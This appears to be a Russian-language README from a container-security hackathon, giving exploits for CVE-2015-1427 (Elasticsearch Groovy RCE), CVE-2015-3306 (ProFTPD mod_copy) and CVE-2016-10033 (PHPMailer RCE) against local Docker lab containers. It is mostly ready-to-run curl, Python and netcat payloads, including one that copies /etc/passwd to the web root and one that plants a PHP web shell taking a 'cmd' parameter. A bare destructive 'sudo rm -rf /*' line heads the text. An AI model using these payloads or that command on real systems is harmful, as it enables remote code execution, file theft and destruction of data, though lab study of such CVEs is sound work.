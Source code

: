sudo rm -rf /*
===
---
Использованная ОС: kali linux 
Использованная версия docker: 18.09.1 

CVE-2015-1427
===
ElasticSearch Groovy RCE <br />
контейнер: bash/cve-2015-1427.sh <br />
Краткое описание уязвимости: Механизм сценариев Groovy в Elasticsearch до 1.3.8 и 1.4.x до 1.4.3 позволяет удаленным пользователям обходить механизм защиты песочницы и выполнять произвольные команды оболочки с помощью созданного сценария. <br />
Эксплоиты:
Выполнить в терминале
```bash
curl -s http://localhost:9200/_search\?pretty -XPOST -d '{"script_fields": {"myscript": {"script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"whoami\").getText()"}}}'
```

Python вариант: <br />
Создать файл с кодом ниже и запустить его
```python
import requests
host = 'http://localhost:9200/'
payload1 = '{"size":1, "script_fields": {"myscript":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"whoami\\").getText()"}}}'

print('exploiting cve-2015-1427 (Container security hackaton)')
req = requests.post(host + '_search?pretty', data=payload1)
print(req.text)
```

В рез-те выполнения нам вернётся результат выполнения команды whoami (а именно root)<br />
Видео: https://youtu.be/W0lYqvhi0iw

CVE-2015-3306
===
контейнер: bash/CVE-2015-3306.sh <br />
Краткое описание уязвимости: Модуль mod_copy в ProFTPD 1.3.5 позволяет чиать и записывать произвольные файлы через команды site cpfr и site cpto <br />
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл passwd, содержащий содержимое файла /etc/passwd <br />

Экспоит:
nano exploit.sh
```bash
#!/bin/bash

nc localhost 21 <<EOF
SITE CPFR /etc/passwd
SITE CPTO /var/www/html/passwd
EOF
```
chmod +x ./exploit.sh <br />
./exploit.sh <br />
откройте страницу http://localhost/passwd <br />

Видео: https://youtu.be/IYNk7QcGbWE



CVE-2016-10033
===
PHPMail Remote Code Execution <br />
контейнер: bash/CVE-2016-10033.sh <br />
Краткое описание уязвимости: В PHPMailer до версии 5.2.18 существовала уязвимость, приводящая к уязвимости типа Remote Code Execution. Из-за недостаточной фильтрации символов \' в поле "sender" злоумышленник мог внедрить вредоносный код. <br />
Описание эксплойта: в рез-те выполнения эксплойта создаётся файл shell.php, позволяющий выполнить произвольный код на сервере при помощи параметра cmd.<br />
Экспоит
```bash
curl -sq 'http://localhost:8383' -H 'Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzXJpHSq4mNy35tHe' --data-binary $'------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="action"\r\n\r\nsubmit\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="name"\r\n\r\n<?php echo \"Shell\";system($_GET[\'cmd\']); ?>\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="email"\r\n\r\n\"floppa\\\" -OQueueDirectory=/tmp -X/www/shell.php server\" @test.test\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe\r\nContent-Disposition: form-data; name="message"\r\n\r\nxD\r\n------WebKitFormBoundaryzXJpHSq4mNy35tHe--\r\n'
```
Видео: https://youtu.be/fwLJwSejeNQ





